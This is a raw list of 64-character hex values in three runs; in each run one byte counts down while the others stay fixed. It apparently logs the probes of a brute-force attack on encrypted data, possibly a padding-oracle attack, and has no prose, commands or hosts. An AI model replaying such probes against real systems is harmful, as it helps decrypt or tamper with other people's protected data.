0000000000e95554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000e85554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000e75554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000e65554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000e55554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000e45554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000e35554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000e25554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000e15554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000e05554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000df5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000de5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000dd5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000dc5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000db5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000da5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d95554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d85554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d75554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d65554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d55554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d45554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d35554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d25554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d15554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000d05554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000cf5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ce5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000cd5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000cc5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000cb5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ca5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c95554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c85554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c75554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c65554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c55554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c45554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c35554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c25554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c15554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000c05554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000bf5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000be5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000bd5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000bc5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000bb5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ba5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b95554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b85554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b75554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b65554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b55554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b45554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b35554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b25554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b15554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000b05554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000af5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ae5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ad5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ac5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ab5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000aa5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a95554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a85554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a75554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a65554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a55554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a45554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a35554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a25554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a15554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000a05554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000009f5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000009e5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000009d5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000009c5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000009b5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000009a5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000995554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000985554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000975554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000965554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000955554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000945554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000935554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000925554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000915554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000905554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000008f5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000008e5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000008d5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000008c5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000008b5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000008a5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000895554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000885554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000875554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000865554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000855554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000845554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000835554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000825554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000815554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000805554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000007f5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000007e5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000007d5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000007c5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000007b5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000007a5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000795554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000785554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000775554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000765554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000755554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000745554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000735554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000725554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000715554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000705554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000006f5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000006e5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000006d5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000006c5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000006b5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000006a5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000695554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000685554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000675554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000665554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000655554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000645554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000635554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000625554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000615554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000605554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000005f5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000005e5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000005d5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000005c5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000005b5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000005a5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000595554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000585554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000575554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000565554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000555554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000545554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000535554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000525554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000515554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000505554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000004f5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000004e5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000004d5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000004c5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000004b5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000004a5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000495554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000485554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000475554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000465554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000455554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000445554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000435554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000425554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000415554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000405554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000003f5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000003e5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000003d5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000003c5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000003b5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000003a5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000395554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000385554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000375554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000365554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000355554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000345554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000335554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000325554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000315554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000305554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000002f5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000002e5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000002d5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000002c5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000002b5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000002a5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000295554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000285554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000275554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000265554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000255554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000245554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000235554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000225554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000215554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000205554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000001f5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000001e5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000001d5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000001c5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
00000000ff1b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000fe1b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000fd1b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000fc1b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000fb1b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000fa1b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f91b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f81b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f71b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f61b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f51b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f41b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f31b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f21b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f11b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000f01b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000ef1b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000ee1b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
00000000ed1b52539f1a62417a070a20fe249615e3e8da834ab4e67cc0348cc4
000000ffec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000feec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000fdec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000fcec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000fbec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000faec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f9ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f8ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f7ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f6ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f5ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f4ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f3ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f2ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f1ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000f0ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000efec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000eeec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000edec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000ecec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000ebec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000eaec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e9ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e8ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e7ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e6ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e5ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e4ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e3ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e2ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e1ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000e0ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000dfec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000deec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000ddec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000dcec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000dbec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000daec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d9ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d8ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d7ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d6ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d5ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d4ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d3ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d2ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d1ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000d0ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000cfec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000ceec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000cdec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000ccec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000cbec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000caec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c9ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c8ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c7ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c6ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c5ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c4ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c3ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c2ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c1ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000c0ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000bfec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000beec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000bdec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000bcec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000bbec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000baec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b9ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b8ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b7ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b6ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b5ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b4ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b3ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b2ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b1ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000b0ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000afec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000aeec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000adec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000acec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000abec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000aaec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a9ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a8ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a7ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a6ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a5ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a4ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a3ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a2ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a1ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
000000a0ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000009fec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000009eec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000009dec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000009cec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000009bec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000009aec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000099ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000098ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000097ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000096ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000095ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000094ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000093ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000092ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000091ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000090ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000008fec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000008eec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000008dec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000008cec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000008bec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000008aec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000089ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000088ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000087ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000086ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000085ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000084ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000083ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000082ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000081ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000080ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000007fec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000007eec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000007dec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000007cec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000007bec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000007aec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000079ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000078ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000077ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000076ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000075ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000074ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000073ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000072ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000071ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000070ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000006fec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000006eec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000006dec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000006cec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000006bec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
0000006aec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000069ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000068ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000067ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000066ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000065ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
00000064ec1a53529e1b63407b060b21fe249615e3e8da834ab4e67cc0348cc4
